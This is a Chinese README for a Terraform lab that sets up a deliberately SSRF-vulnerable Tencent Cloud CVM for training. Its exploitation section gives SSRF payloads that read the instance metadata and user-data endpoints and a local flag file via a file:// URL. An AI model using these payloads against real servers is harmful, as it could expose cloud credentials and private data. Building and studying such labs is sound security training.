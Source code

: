 # 腾讯云 CVM SSRF 漏洞环境

[English](./README.md) | 中文

## 描述信息

这是一个用于构建腾讯云 CVM SSRF 漏洞环境的靶场。

使用 Terraform 构建环境后，用户可以通过 SSRF 漏洞获取到 CVM 上的元数据、用户数据等信息。

## 环境搭建

在容器中执行以下命令

```shell
cd /TerraformGoat/tencentcloud/cvm/cvm_ssrf/
```

编辑 `terraform.tfvars` 文件，在文件中填入你的 `tencentcloud_secret_id` 和 `tencentcloud_secret_key`

```shell
vim terraform.tfvars
```

> 在腾讯云控制台的 [API 密钥管理](https://console.cloud.tencent.com/cam/capi) 可以创建和查看您的 SecretKey

部署靶场

```shell
terraform init
terraform apply
```

> 在终端提示 `Enter a value:` 时，输入 `yes` 即可

![img](../../../images/1651912048.png)

环境搭建完后，在 Outputs 处可以看到靶场的访问地址，打开浏览器访问即可。

> 由于靶场搭建需要一定时间，因此如果浏览器访问不到，可以等待 1-2 分钟后再访问试试。

## 漏洞利用

在存在 SSRF 漏洞的 CVM 上，我们可以利用 SSRF 读取 CVM 的元数据、用户数据等信息。

读取元数据

```shell
http://metadata.tencentyun.com/latest/meta-data/
```

![img](../../../images/1651912129.png)

读取用户数据

> 前提是目标已经配置了用户数据，不然会返回 404

```shell
http://metadata.tencentyun.com/latest/user-data/
```

![img](../../../images/1651912150.png)

在用户数据信息中，可以看到在靶场的根目录下有个 flag 文件，尝试利用 SSRF 读取这个文件

```shell
file:///flag69152201.txt
```

![img](../../../images/1651825032.png)

成功读取到 flag 文件

## 销毁环境

```shell
terraform destroy
```
